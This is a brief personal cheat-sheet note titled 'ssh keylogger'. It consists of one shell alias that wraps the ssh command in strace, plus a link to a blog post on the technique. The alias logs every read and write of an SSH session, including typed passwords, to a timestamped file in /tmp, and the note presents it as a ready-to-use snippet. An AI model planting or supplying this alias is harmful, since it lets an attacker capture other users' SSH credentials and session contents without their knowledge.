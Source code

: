 ```yaml
---
tags: [ssh]
title: ssh keylogger
created: '2019-07-30T06:19:49.241Z'
modified: '2019-08-22T09:16:20.281Z'
---
```


# ssh keylogger

```sh
ssh='strace -o /tmp/sshpwd-$(date '+%d%h%m%s').log -e read,write,connect -s2048 ssh'
```
## see also
- [Poor man's SSH keylogger](https://diogomonica.com/2011/02/03/poor-mans-ssh-keylogger/)
- [[strace]]
